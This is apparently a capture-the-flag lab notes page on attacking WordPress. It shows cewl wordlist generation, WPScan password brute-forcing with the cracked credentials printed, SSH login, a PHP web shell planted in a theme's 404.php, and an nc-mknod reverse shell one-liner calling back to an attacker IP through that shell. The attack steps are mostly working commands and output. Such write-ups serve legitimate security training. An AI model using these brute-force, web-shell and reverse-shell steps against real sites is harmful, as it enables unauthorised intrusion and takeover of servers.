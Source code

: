 ```yaml
---
layout: default
title: Wordpress
parent: Web Exploits
nav_order: 5
---
```


# Wordpress

---

## Brute Force via WPScan

Use Cewl to get a custom wordlist of the site

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-2]
└─$ cewl http://dc-2 -m 5 -w cewl.txt 2>/dev/null


```

WPScan password attack with the enumerated users and _cewl_ password list.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-2]
└─$ wpscan --url http://dc-2 --disable-tls-checks -U users.txt -P cewl.txt

[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient

```

We have valid login credentials for _jerry_ and _tom_
jerry:adipiscing
tom:parurient
{: .warn }

We can SSH to port 7744 as _tom_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-2]
└─$ ssh tom@192.168.160.194 -p 7744
tom@192.168.160.194's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$
```

## Exploit TwentyFourteen Wordpress Theme

Place the following in the \*404.php\_ file.

```bash
<?php echo system($_REQUEST["cmd"]); ?>
```

![404](../../../../assets/images/ctfs/proving_grounds/btrsys/404.png)

Verify that the PHP web shell is executing commands.

![cmd](../../../../assets/images/ctfs/proving_grounds/btrsys/cmd.png)

Use _revshellgen_ to execute a reverse shell one-liner via the PHP web shell.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/btrsys]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/btrsys]
└─$ urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l"
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

```

Execute the URL encoded payload in the PHP web shell and receive a reverse shell in our netcat listener.

```bash
URL: http://192.168.242.50/wordpress/wp-content/themes/twentyfourteen/404.php?cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl
```

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/btrsys]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.242.50] 51742
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
